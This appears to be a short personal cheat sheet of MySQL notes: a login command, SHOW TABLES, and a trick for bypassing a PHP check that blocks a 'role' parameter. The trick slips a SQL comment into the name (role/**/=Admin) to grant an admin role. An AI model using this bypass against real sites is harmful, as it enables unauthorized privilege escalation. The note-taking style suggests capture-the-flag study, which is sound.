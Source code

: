 # Mysql

play with [sql queries](https://onecompiler.com/mysql)

## login

```bash
mysql -h localhost -u USER -p DB
```

## useful commands

```
SHOW TABLES;
```

## bypass parameter name checks

if for example it is not allowed to set the role parameter:

```php
foreach($_GET as $key=>$value) {
	if (strtolower($key) === 'role') {
		// prevent malicious users to modify role
		header('Location: /index.php?err=Malicious activity detected!');
		die;
	}
	$args[$key] = $value;
}
```

we can use a comment:

```
GET /save_game.php?clicks=4&level=0&role/**/=Admin
```

